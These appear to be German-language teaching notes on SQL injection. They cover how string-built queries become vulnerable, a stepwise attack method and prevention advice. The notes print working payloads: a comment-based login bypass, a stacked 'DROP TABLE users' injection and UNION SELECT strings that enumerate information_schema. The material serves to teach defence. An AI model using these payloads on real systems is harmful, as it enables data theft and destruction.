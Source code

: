 ## Von Schwachstelle zur Attacke
Meistens braucht es eine Aneinanderreihung von Schwachstellen, um erfolgreich eine Attacke auszuführen.

## SQL-Injection
- Nutzerdaten in ein SQL-Query verpacken
- Ein Angreifer verändert Struktur bzw. Semantik der Query

- String concatenation
- Ohne Escapen
- Ohne Prepared Statements

```sql
SELECT * FROM users WHERE username = "${username}" AND password = "${password}"
```

```ts

const username = 'mgartner" --';
const password = "letmein123";
```

```sql
SELECT * FROM users WHERE username = "mgartner" --" AND password = "letmein123"
```

```ts

const username = 'mgartner"; DROP TABLE users --';
const password = "letmein123";
```

```sql
SELECT * FROM users WHERE username = "mgartner"; DROP TABLE users --" AND password = "letmein123"
```

Funktioniert nicht, JOIN muss vor WHERE stehen
```sql
SELECT * FROM products WHERE name LIKE '%' JOIN users ON 
```

```
a%' UNION SELECT 1, 1, TABLE_SCHEMA, TABLE_NAME FROM information_schema.tables; #

a%' UNION SELECT 1, TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME FROM information_schema.columns; #
```

### Generelles vorgehen
1. Herausfinden, ob die Anwendung generell anfällig für SQL-Injection ist. (z.B. indem man `'";` eingibt)
2. Herausfinden auf welchem DBMS man sich bewegt.
3. Auslesen von System-Tabellen, um Tabellennamen, Spaltennamen, usw. herauszufinden.
4. Mit dieser Information eine schädliche Abfrage konstruieren.

### Wie verhindert man SQL-Injections?
- SQL Queries sollten _niemals_ per String Building
- User(kontrollierter)-Input _immer_ bereinigen
  - Am besten nur eine kleine Menge an Inputs überhaupt erlauben
- Wenn möglich: Kein Raw-SQL als API verwenden. Stattdessen strukturierte Schnittstellen wie REST, SOAP, gRPC
